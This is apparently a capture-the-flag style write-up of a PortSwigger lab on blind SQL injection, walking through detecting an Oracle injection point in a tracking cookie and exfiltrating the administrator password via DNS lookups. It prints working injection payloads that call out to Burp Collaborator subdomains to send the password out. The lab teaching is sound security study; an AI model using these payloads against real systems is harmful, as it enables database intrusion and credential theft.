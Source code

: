 # Blind SQL injection with out-of-band data exfiltration

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration), you'll learn: Blind SQL injection with out-of-band data exfiltration! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301125654.png)

**Cookies:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301125711.png)

When we go to `/`, it'll set a new cookie called `TrackingId`.

This looks like a tracking cookie for analytics.

The SQL query may looks like this:

```sql
SELECT TrackingId FROM tracking WHERE TrackingId = '<our_cookie_value>'
```

**That being said, we can try to perform SQL injection.**

**To do so, I'll try to trigger an SQL query error:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301125753.png)

However, it seems like we don't recieve any response when we modified the tracking cookie.

Maybe carries out the SQL query **asynchronously**?

The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

The easiest and most reliable way to use out-of-band techniques is using [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator). This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to [Burp Suite Professional](https://portswigger.net/burp/pro) with no configuration required.

### Dectecting blind SQL injection with DNS lookup

**In the PortSwigger's [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), there's a DNS lookup payloads:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301125818.png)

Since we don't know which DBMS (Database Management System) is using, we need to try them all one by one.

**First, go to Burp Suite's Collaborator and click "Copy to clipboard":**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301125842.png)

**Then, we'll try Oracle XXE vulnerability to trigger a DNS lookup:**
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "https://wcc9qdxnn2kmj8qlqoe2s0vic9i06quf.oastify.com/"> %remote;]>'),'/l') FROM dual
```

**Payload:**
```sql
UtpAUCPaD1W1twLc' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://wcc9qdxnn2kmj8qlqoe2s0vic9i06quf.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

**The SQL query may become:**
```sql
SELECT TrackingId FROM tracking WHERE TrackingId = 'UtpAUCPaD1W1twLc' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual--'
```

Let's send the payload!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301130156.png)

> Note: The payload needs to be URL encoded.

**Burp Suite's Collaborator:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301130205.png)

We've recieved 4 DNS lookups! Which means the `TrackingId` cookie is vulnerable to out-of-band SQL injection!

### Data exfiltration via blind SQL injection with DNS lookup

Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application.

**In the PortSwigger's [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), there's a DNS lookup with data exfiltration payloads:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301130326.png)

**Since we found the DBMS is Oracle, we can use Oracle's payload:**
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

Then, in the lab background, there's a table called `users`, with columns called `username` and `password`.

**To exfiltrate `administrator` user's password, we can use the following payload:**
```sql
UtpAUCPaD1W1twLc' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.mxnzb3id8s5c4ybbbezsdqg8xz3qrhf6.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

This input reads the password for the `administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This will result in a DNS lookup like the following, allowing you to view the captured password

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301130722.png)

**Burp Suite's Collaborator:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301130736.png)

Nice! We successfully exfiltrated `administrator`'s password!

**Let's login as `administrator`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301130826.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301130831.png)

I'm user `administrator`!

# What we've learned:

1. Blind SQL injection with out-of-band interaction